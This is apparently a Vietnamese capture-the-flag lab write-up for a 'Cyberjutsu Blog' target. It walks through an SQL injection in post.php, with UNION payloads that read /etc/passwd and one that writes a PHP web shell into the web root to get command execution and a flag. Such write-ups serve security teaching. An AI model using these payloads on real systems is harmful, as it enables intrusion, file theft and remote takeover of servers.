



# LAB 01 - Cyberjutsu Blog
## Mục tiêu
RCE và tìm flag
## Audit source code

### Lỗi SQLi trong file post.php
Phát hiện lỗi SQL Injection ở dòng 6-7 file post.php, cho phép nối dài SQL query thông qua trường `GET id`  

Test với Payload `1'` trả về lỗi  

Có thể thực hiện **Ghi file, đọc file,**

**Tìm số cột trong bảng** `1+UNION+SELECT+1,2,3,4` -> có 4 cột  

**Thử chức năng đọc file**  
Trong mysql có hàm load_file() thực hiện in ra nội dung file đang có trên server
`100+UNION+SELECT+1,2,3,load_file('/etc/passwd')`

**Thử chức năng ghi file**  
Query `INTO OUTFILE 'file_name'` cho phép ghi kết quả output của query vào đường dẫn file
DocumentRoot hiện tại của server là đường dẫn `/var/www/html`
-> `100+UNION+SELECT+1,2,3,4+INTO+OUTFILE+"/var/www/html/test.php"`

**Khai thác**  
1. Ghi một file shell vào DocumentRoot  
    `100+UNION+SELECT+'<?php+system($_GET[\'cmd\']);?>',2,3,4+INTO+OUTFILE+"/var/www/html/testc.php"`
Shell cho phép thêm OS command thông qua HTTP GET
2. Truy cập shell và chèn payload  
    Tìm được flag ở đường dẫn `/flag_a7bd2`  
    
